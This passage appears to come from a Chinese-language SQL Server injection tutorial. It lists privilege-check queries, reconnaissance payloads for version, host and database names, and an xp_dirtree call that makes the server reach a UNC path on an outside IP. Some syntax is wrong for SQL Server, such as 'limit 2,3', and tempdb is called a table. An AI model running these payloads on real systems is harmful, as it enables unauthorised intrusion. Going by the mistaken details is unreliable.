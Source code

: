 ![](https://pic4.zhimg.com/v2-a20e762b2588dd57ff57ca8d62ff6a57_b.jpg)

判断是否是SA权限(数据库操作、文件管理、命令执行、注册表读取)

1.  select is\_srvrolemember('sysadmin')

判断是否是db\_owner权限 (数据库操作、文件管理)

1.  select is\_member('db\_owner')

判断是否是public权限 (数据库操作)

1.  select is\_srvrolemember('public')

SQLServer数据库有6个默认的库，分别是4个系统数据库：master 、model 、msdb 、tempdb，和2个实例数据库：ReportServer、ReportServerTempDB。其中，系统数据库 model 和 tempdb 默认是没有数据表的。

附上payload：

select @@version; # 查询数据库的版本

select @@servername; # 查询服务名

select host\_name(); # 查询主机名，如果是用navicat远程连接的话，主机名是本地的名字

select db\_name(); # 查询当前数据库名

select db\_name(1); # 查询第一个数据库名

select db\_name(2); # 查询第二个数据库名

select user; # 查询当前数据库的拥有者，结果为 dbo。dbo是每个数据库的默认用户，具有所有者权限，全称：datebaseOwner ，即DbOwner

use tempdb # 切换到tempdb表

top n # 查询前n条记录

limit 2,3 # 查询第2条开始的3条数据，也就是2,3,4

select substring('string',2,1) # 截取给定字符串的索引为2的1个字符

select ascii('a') # 查询给定字符串的ascii值

select len('string') # 查询给定字符串的长度

EXEC sp\_spaceused @updateusage = N'TRUE'; # 查询当前数据库的大小

sp\_spaceused '表名' # 查询指定表名的大小

EXEC master.sys.xp\_dirtree '\\192.168.106.5\\xx.txt',0,1;

判断是否是SA权限

select is\_srvrolemember('sysadmin')

判断是否是db\_owner权限

select is\_member('db\_owner')

判断是否是public权限

select is\_srvrolemember('public')

### 普通注入
